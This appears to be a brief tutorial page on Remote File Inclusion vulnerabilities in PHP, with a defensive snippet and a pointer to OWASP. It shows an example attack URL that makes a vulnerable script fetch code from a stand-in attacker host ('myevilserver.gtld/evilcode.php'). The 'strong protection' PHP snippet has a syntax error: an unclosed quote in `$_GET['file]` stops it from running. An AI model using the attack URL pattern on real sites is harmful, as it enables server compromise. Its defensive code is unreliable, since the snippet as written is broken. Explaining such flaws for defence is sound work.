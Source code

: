 ```yaml
---
title: Remote File Inclusion
---
```

## Remote File Inclusion

A vulnerability in the application caused by the programmer requiring a file input provided by the user and not sanitizing the input before accessing the requested file. This results in a file being pulled from a remote server and included where it should not of been.

### Example remote file inclusion attacks
A website allows you to view PDFs as `download.php?file=myfile.php`, due to a lack of proper checking a malicious user is able to request a remote resource and include in the script. The URL could become `download.php?file=http://myevilserver.gtld/evilcode.php` this could then be outputted to the user or in severe cases run the actual PHP code on your server.

### Defending your website from remote file inclusion attacks in PHP
The following PHP code will provide strong protection against a remote file inclusion attacks
```PHP
<?php
if(basename($_GET['file]) !== $_GET['file']) {
  die('INVALID FILE REQUESTED');
}
```
* You can disable `allow_url_fopen` in your php.ini file as an added protection against remote file inclusion.

#### More Information:
* <a href="https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion" rel="nofollow">OWASP Wiki - Testing for Remote File Inclusion</a>
